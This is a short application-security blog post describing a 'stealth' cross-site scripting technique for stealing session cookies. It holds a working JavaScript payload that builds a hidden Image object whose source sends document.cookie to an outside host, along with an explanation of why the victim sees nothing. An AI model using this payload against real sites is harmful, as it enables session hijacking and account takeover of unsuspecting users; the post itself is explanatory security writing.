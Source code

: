 title: Stealth Cookie Stealing (XSS technique)
publish: True
categories: [application security]

Everyone knows what XSS is, right? Good, I'll spare you the definition. A common use for XSS is stealing cookies to hijack sessions and gain access to restricted web content. Cookie stealing is typically done by forcing a target's browser to issue some sort of GET request to a server controlled by the attacker which accepts the target's cookie as a parameter and processes it in some way. In most cases, when a cookie stealing XSS attack is successful, it generates a visual clue which can tip off the target. While it is too late at this point, stealth has been compromised, and could be the difference between the user keeping the session active, or clicking 'log out' and rendering your stolen cookie invalid.

<!-- READMORE -->

![Good ole' fashion cookie stealin'](/images/posts/cookie_monster.jpg)

About a year ago, I came up with a stealth technique for executing cookie stealing XSS attacks that I assumed was common knowledge. But after talking about the technique with several top web app security professionals, I realize that the technique may be more unique than I initially thought. Below is an example of the technique.

``` javascript
javascript:img=new Image();img.src="http://tools.lanmaster53.com/monster.php?cookie="+document.cookie;
```

For those that don't understand exactly what is going on here, basically, I'm using a dummy JavaScript image to launch a GET request. The first part of the script instantiates an image object, and the second part sets the source attribute of the image object. In this example, the source url is what you would use in any other cookie stealing attack. The key here is that once the source attribute is set, the browser fires off the request and stores the response in memory. I never use the instantiated image, the browser doesn't care, and the user is unaware that anything has happened. Stealth is maintained.
